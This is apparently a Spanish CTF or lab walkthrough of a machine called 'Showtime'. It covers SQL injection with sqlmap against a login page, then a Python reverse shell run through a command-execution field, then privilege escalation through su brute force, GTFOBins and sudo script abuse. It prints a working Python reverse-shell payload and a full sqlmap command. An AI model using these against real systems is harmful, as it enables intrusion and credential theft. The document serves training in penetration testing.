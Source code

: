 Escaneo de puertos:
![[Pasted image 20240724100312.png]]

Veamos lo que hay en el puerto 80:
![[Pasted image 20240724100412.png]]
Es una pagina web que contiene un casino y sus respectivos juegos

Haremos fuzzing web usando la herramienta de Gobuster:
![[Pasted image 20240724100928.png]]
Y encontramos un /login_page

Veamos lo que hay en esta dirección:
![[Pasted image 20240724101000.png]]
Tenemos un panel de login

Vamos a hacer una inyección SQL con ayuda de la herramienta Sqlmap:
1. Enumeraremos posibles bases de datos
```
sqlmap --url http://172.17.0.3/login_page/ --dbs --batch --forms 
```
![[Pasted image 20240724102205.png]]
![[Pasted image 20240724102216.png]]
Usaremos la base de datos Users

2. Enumeraremos posibles tablas, de esta base de datos:
![[Pasted image 20240724102310.png]]
![[Pasted image 20240724102320.png]]
Tenemos la tabla llamada Usuarios

3. Enumeraremos posibles columnas de esta tabla:
![[Pasted image 20240724102357.png]]
![[Pasted image 20240724102409.png]]
Tenemos 3 columnas id, password y username

4. Y por último, enumeraremos usuarios de estas 3 columnas:
![[Pasted image 20240724102726.png]]
![[Pasted image 20240724102740.png]]
Tenemos 3 usuarios con sus respectivas contraseñas

Probaremos a entrar con el usuario Joe y su respectiva contraseña
![[Pasted image 20240724102945.png]]

Y estamos dentro:
![[Pasted image 20240724103003.png]]
Tenemos un campo para escribir un comando o codigo en python y ver su resultado

Un ejemplo es:
![[Pasted image 20240724103107.png]]
Y damos click en "Ejecutar comando"

Y nos da como resultado:
![[Pasted image 20240724103134.png]]

Ahora, sabiendo eso haremos una reverse shell con python:
![[Pasted image 20240724130255.png]]

```
`import socket`
`import subprocess`
`import os`

`s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)`
`s.connect(("172.17.0.1", 443))`
`os.dup2(s.fileno(), 0)`
`os.dup2(s.fileno(), 1)`
`os.dup2(s.fileno(), 2)`
`p = subprocess.call(["/bin/sh", "-i"])`
```
Nos ponemos a la escucha con netcat por el puerto 443
![[Pasted image 20240724125854.png]]
Y damos click en el boton "Ejecutar Comando" y recibimos automaticamente la rev shell
![[Pasted image 20240724130656.png]]

Haremos tratamiento de la TTY:
![[Pasted image 20240724130726.png]]
![[Pasted image 20240724130751.png]]

## ESCALADA DE PRIVILEGIOS

En la carpeta /tmp encontramos un archivo con unos trucos para un juego, pero en realidad pueden ser posibles contraseñas:
![[Pasted image 20240725100027.png]]

Así que primero pasaremos esta lista de mayúsculas a minúsculas, con este comando:
```shell
tr '[:upper:]' '[:lower:]' < archivo.txt > archivo_minusculas.txt

```
![[Pasted image 20240725100324.png]]
Y listo ya lo tenemos en minusculas:
![[Pasted image 20240725100356.png]]

Ahora haremos un ataque de fuerza bruta con este diccionario de contraseñas, así que me descargaré una herramienta en bash para que me automatice esta acción
Usaré esta herramienta de Maalfer https://raw.githubusercontent.com/Maalfer/Sudo_BruteForce/main/Linux-Su-Force.sh
![[Pasted image 20240725100600.png]]
Me creo un servidor con python con el puerto 80 para enviarme esta herramienta hacia la maquina Showtime:
![[Pasted image 20240725100724.png]]
![[Pasted image 20240725100901.png]]
Y listo, ya tengo la herramienta de fuerza bruta en la maquina

Ahora le doy permisos de ejecución con chmod +x ![[Pasted image 20240725100946.png]]
Y ejecuto la herramienta de fuerza bruta con el usuario joe y de contraseñas usaremos el diccionario de las palabras pero en minusculas:
![[Pasted image 20240725101046.png]]
![[Pasted image 20240725101057.png]]
Y nos la encontró

Ahora procedemos a ser el usuario joe con su respectiva contraseña:
![[Pasted image 20240725101157.png]]

Ejecutamos sudo -l para ver el binario que podremos usar 
![[Pasted image 20240725101224.png]]
Observamos que podemos ser el usuario luciano con el binario Posh

Miramos en GTFOBins como podemos escalar con este binario:
![[Pasted image 20240725101302.png]]

Lo ejecutamos:
![[Pasted image 20240725101352.png]]
Y listo, ya somos luciano

Ejecutamos sudo -l para ver el binario que podremos usar 
![[Pasted image 20240725101415.png]]
Observamos que para ser root podemos ejecutar un script hecho en bash

 Lo que contiene el script.sh ubicado en la carpeta /home/luciano es una reverse shell pero con una ip diferente a la nuestra, asi q procederemos a modificar este archivo con una /bin/bash para que al momento de ejecutarlo seamos root inmediatamente
 ![[Pasted image 20240725101701.png]]

Lo ejecutamos:
![[Pasted image 20240725101725.png]]

Y listo, ya somos ROOT
